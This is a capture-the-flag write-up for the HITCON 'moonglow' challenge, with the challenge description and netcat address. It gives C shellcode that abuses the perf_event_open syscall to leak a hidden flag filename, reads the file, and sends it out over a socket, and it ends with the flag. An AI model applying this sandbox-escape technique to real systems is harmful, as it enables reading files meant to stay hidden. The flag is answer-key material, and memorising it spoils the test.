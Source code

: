 # moonglow (misc 300)

## Description

```
Moonglow is a type of Herb which appears as a bent stalk with a drooping blue-white flower. It grows in Jungle grass (surface Jungle and Underground Jungle) and can be cut with virtually any weapon or tool. It can also be planted in Clay Pots using Moonglow Seeds.

nc 52.69.171.132 10001

moonglow.tgz_08f1639532677fb3f6c462cc74cd48f05dd20e60
```

## Story

We got fairly close, but did not complete this in time before the game was over :/

Here we present a working solution for this challenge that we worked on *after* the competition ended.

## Solution

Note that we use our custom shellcode compiler environment which is not shipped with this write-up. But the important part here is that `perf_event_open` syscall can be used to initiate the performance monitoring -- more importantly, you can set bits for sampling mmap data. Then, you can read the randomly generated filename (that contains the flag) in `PERF_RECORD_MMAP` record, which then can be opened and read to get the flag.

```C
void Main(void) {

  ...

  struct perf_event_attr pe;
  struct perf_event_mmap_page mp;

  memset(&pe, 0, sizeof(struct perf_event_attr));
  pe.type = PERF_TYPE_SOFTWARE;
  pe.size = sizeof(struct perf_event_attr);
  pe.config = PERF_COUNT_SW_DUMMY;
  pe.disabled = 0;
  pe.exclude_kernel = 1;
  pe.exclude_hv = 1;
  pe.mmap = 1;
  pe.mmap_data = 1;

  char buf[1024];
  memset(buf, 'A', 80);
  buf[80] = '\n';

  int fd = Syscall(__NR_perf_event_open, &pe, 3, -1, -1, 0);
  char* rbuf = Syscall(__NR_mmap, NULL, 0x1000 + 0x4000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
  Syscall(__NR_write, 1, buf, 81);

  struct timespec ts;
  ts.tv_sec = 1;
  ts.tv_nsec = 0;
  Syscall(__NR_nanosleep, &ts, &ts);

  fd = Syscall(__NR_open, rbuf+0x1028, 0, 0);
  Syscall(__NR_read, fd, buf, 100);

  SendLen(sockfd, buf, 100, 0);
  SendLen(sockfd, "\n", 1, 0);

fail:
  Syscall(__NR_exit_group, 0);
}

```

## Flag

Flag: `hitcon{M0oN$on4Ta !s 8eauti4, C0nta1ner 1$ Aw4}`
